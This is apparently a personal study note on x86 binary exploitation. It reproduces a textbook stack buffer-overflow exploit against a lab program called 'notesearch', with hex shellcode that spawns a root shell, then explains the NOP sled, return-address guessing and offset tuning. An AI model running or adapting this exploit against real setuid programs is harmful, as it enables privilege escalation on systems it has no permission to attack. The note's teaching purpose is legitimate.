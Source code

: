 # x86

Refer to [https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/vulnerability-and-exploitation/binary-exploitation/x86-architecture ](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/vulnerability-and-exploitation/binary-exploitation/x86-architecture)for more information about the x86 architecture&#x20;

_**hacking: the art of exploitation**_

{% code title="exploit_notesearch.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
 unsigned int i, *ptr, ret, offset=270;
 char *command, *buffer;
 
 command = (char *) malloc(200);
 
 bzero(command, 200); // Zero out the new memory.
 
 strcpy(command, "./notesearch \'"); // Start command buffer.
 buffer = command + strlen(command); // Set buffer at the end.
 
 if(argc > 1) // Set offset.
  offset = atoi(argv[1]);
  
 ret = (unsigned int) &i - offset; // Set return address.
 
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
 *((unsigned int *)(buffer+i)) = ret;
 
 memset(buffer, 0x90, 60); // Build NOP sled.
 memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
 
 strcat(command, "\'");
 system(command); // Run exploit.
 free(command);
}
```
{% endcode %}

The exploit above displays a simple buffer overflow exploit for the x86 architecture.

> This exploit will only work with architecture that have a stack growing downwards (to lower memory addresses).

#### Explanation

1. Shellcode string
   * ...
2. Set return address (estimated)

```c
ret = (unsigned int) &i - offset; // Set return address.
```

Set the return address by subtracting a guessed offset value from the current stack location. This calculates a possible lower memory location that may land in the NOP sled when the `notesearch` program is executed. Keep in mind that a subtraction is used instead due to the stack growing downwards.

3. Fill buffer space with return address
   * This is performed in hopes of overwriting the `EIP` (instruction pointer) with the return address of our choice
   * to trick the CPU into executing malicious code

```c
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
  *((unsigned int *)(buffer+i)) = ret;
```

4. Build NOP sled and append shellcode

```c
memset(buffer, 0x90, 60); // Build NOP sled.
memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
```

The value `0x90` represents a NOP instruction in x86 assembly. A NOP instruction is simply a command that does nothing. In this case, when the EIP points to an address within the NOP sled region, the CPU will simply run through each NOP instruction, until it eventually reaches and executes the shellcode.

> Note: the CPU automatically updates the EIP to point to the next instruction in memory (auto increment)

**1st line**: appends 60 bytes of the NOP instruction

**2nd line**: appends shellcode right after the NOP sled

#### Methods to fine-tune the exploit

1. Increase the NOP sled size
   * This increases the chances of the return address value (calculated with the offset) to land within the NOP sled region
2. Vary the offset value
   * Experiment with different offset values to determine the value that provides the return address which falls within range the range of the NOP sled region

